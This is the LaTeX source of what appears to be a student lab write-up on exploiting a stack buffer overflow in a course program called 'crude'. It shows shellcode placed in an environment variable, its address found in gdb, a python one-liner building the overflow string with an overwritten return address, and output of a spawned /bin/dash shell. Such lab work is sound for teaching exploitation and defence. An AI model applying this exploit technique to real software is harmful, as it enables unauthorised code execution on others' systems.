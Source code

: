 \documentclass[]{article}
\begin{document}
\begin{enumerate}
	\item In order to put the shellcode in an environment variable, one can simply export it like so:\\
	
		\texttt{export CODE=`python -c "'<shellcode>'"`}\\ 

	This will put the shellcode in a variable called CODE. In order to find the address required, one can simply print the stack in gdb like so: \texttt{x/500s \$esp}. If you put a break point in main, you will definitely get the environment to print in the first 500 words. It looks something like this.
	\\
	\\
	 \texttt{
	 	0xbfffff7f:	 "LESSOPEN=| /usr/bin/lesspipe \%s"\\
	 	0xbfffff9f:	 "CODE=1\300Ph//shh/bin\343PS҃[\350P̀"\\
	 	0xbfffffc2:	 "LESSCLOSE=/usr/bin/lesspipe \%s \%s"\\
	 	0xbfffffe4:	 "/home/ccsep/CRUDE/crude"\\
	 	0xbffffffc:	 ""\\
	 	0xbffffffd:	 ""\\}
	\\
	\item We then need to add enough to the address printed, in order to skip the name and "=" sign. In this case we add 5 to 0xbfffff9f, giving 0xbfffffa4.\\
	Once we have the required addresses, we can construct the exploit string like so: Program interaction input, \textcolor{blue}{buffer overflow}, \textcolor{red}{PSFP}, \textcolor{orange}{new return address}.\\
	\\
	\texttt{python -c "print '1{\textbackslash}ntest.csv{\textbackslash}n5{\textbackslash}n1{\textbackslash}n' + \textcolor{blue}{17 * 'a'} + \textcolor{red}{'{\textbackslash}xd8{\textbackslash}xf6{\textbackslash}xff{\textbackslash}xbf'} +\\ \textcolor{orange}{'{\textbackslash}xa4{\textbackslash}xff{\textbackslash}xff{\textbackslash}xbf'}" $>$ stack2.txt}
	\\
	\item Lets test it with the fifo pipe and \texttt{ls}.\\\\
	\texttt{process 2121 is executing new program: /bin/dash\\
	LICENSE  Makefile  README.md  crude  doc  resources  sin  src  test.csv}
	\\\\
	Success again!
\end{enumerate}
\end{document}
